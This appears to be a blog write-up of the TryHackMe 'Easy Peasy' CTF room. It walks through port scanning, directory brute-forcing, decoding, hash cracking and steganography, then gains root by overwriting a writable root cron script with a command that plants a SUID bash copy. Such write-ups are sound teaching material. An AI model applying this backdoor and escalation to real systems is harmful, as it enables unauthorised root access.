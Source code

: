 ```yaml
---
slug: easy-peasy
title: Easy Peasy
authors: [hueami]
tags: [tryhackme, ctf]
comments: true
---
```

Welcome to my first write-up for the CTF room [Easy Peasy on tryhackme](https://tryhackme.com/room/easypeasyctf). Let's dive into the fascinating world of Capture The Flag challenges!

### Task 1: Enumeration through nmap

<!-- truncate -->

1. Our first step is to understand the landscape we're dealing with. We'll start by enumerating all the ports using nmap.

```bash
$ sudo nmap [target IP] -p0-

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:33 CET
Nmap scan report for [target IP]
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
This fast enumeration over all ports gives us our first piece of the puzzle - the number of open ports.
Next, we perform a detailed scan over the open ports.

```bash
sudo nmap [target IP] -p080,6498,65524 -A -T5

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:40 CET
Nmap scan report for [target IP]
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%) [...]
```
This information helps us to answer questions 2 and 3.

### Task 2: Compromising the machine 
With our enumeration complete, we move on to compromising the machine.

The room provides a task file that appears to be a wordlist. We’ll save this for later use.
We then proceed to scan subdirectories using feroxbuster, with the directory wordlist `SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt``.
```bash
$ feroxbuster -u http://[target IP] -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Feroxbuster uncovers a directory with another subdirectory. Both directories contain an image, but only the second subdirectory contains hidden information in the source code.

The string appears to be base64 encoded, so we decode it:

```bash
echo ZmxhZ3tmMXJz**********== | base64 -d
```
Decoded string is the flag asked for in question 1.

The two images do not seem to contain valuable information. I checked the EXIF information and tried to find some hidden messages with an [steganography tool](https://futureboy.us/stegano/decinput.html), but had no success. So, I continued to look at the Apache webserver running on port 65524.

The index.html served on port 65524 displayed a default Apache site. The flag for question 3 is hidden in the text.

The robots.txt file (nikto found it) shows me a strange string with the message that this agent may enter. Using it as a custom user agent does not work. I tried several online hash rainbow tables, e.g. [crackstation](https://crackstation.net/), [nitrxgen](https://www.nitrxgen.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [md5hashing](https://md5hashing.net). Search in all types of [md5hashing](https://md5hashing.net) finally finds the flag for question 2.

Looking at the sourcecode revealed a hidden message:
`<p hidden>its encoded with ba....:ObsJmP173N2X6d**********</p>`
I tried several baseX encodings with [cyberchef](https://gchq.github.io/CyberChef/) until I had a hit: `/n0th1ng**********` - looks like a directory and the answer to question 4.

There are two images in the subdirectory. The binary code shown is rubbish. The steganography tool is not able to find a message. In the page source in the subdirectory, I found the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e********`. I tried [crackstation](https://crackstation.net/) - no results. So I ran John the Ripper on the string with the previously saved wordlist `easypeasy.txt`:

```bash
$ echo 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e******** > easypeasy
$ john --wordlist=~/Downloads/easypeasy.txt ./easypeasy
```
John gets a result: `m*****************b`
This is the answer for question 5.

I try this password with the two images in the [steganography tool](https://futureboy.us/stegano/decinput.html) - the binary code image is a hit. I get a username `b****g` and a binary encoded password `i**************************y`. The password is the answer for question 6.

With a username and a password, I try to use them for the SSH service that Nmap found on port 6498. It works perfectly fine. The user flag is located in the user’s home as expected, but it looks wrong:

```bash
$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s********************}
```

This is a hint on the used encryption - the Caesar (or ROT) cipher. The first letter s should be an f for flag, I guessed. That meant I had to rotate by 13 characters - ROT13. Flag found and question 7 solved.

A message caught my attention:

```bash
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```
This suggested that there might be a cron job running that I could exploit to gain root access. To confirm this, I checked the crontab file:

```bash
$ cat /etc/crontab

[..]

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Indeed, there was a shell script named `.mysecretcronjob.sh` running every minute with root permissions. Checking the permissions of the file showed that the owner was the current user and they had permission to write to this file. This opened up a lot of options for exploitation. I decided to modify the script to make a copy of bash and set the SUID bit, so it would run with its owner’s (root) permissions.

```bash
echo 'cp /bin/bash /var/www/bash; chmod +s /var/www/bash' > /var/www/.mysecretcronjob.sh
```
A few moments later, the modified bash was available. Executing it with the argument `-p` ensured that it did not drop the root privilege, as it would normally do. With the root shell, I was now able to read the root flag:

```bash
$ cat /root/.root.txt
```
The flag looked like there would be a hash to crack again - but fortunately, the form for question 8 accepted it and I did not have to crack a hash again.

And that concludes our journey through this CTF challenge. I hope you found it insightful and engaging. Stay tuned for more adventures in the world of IT security!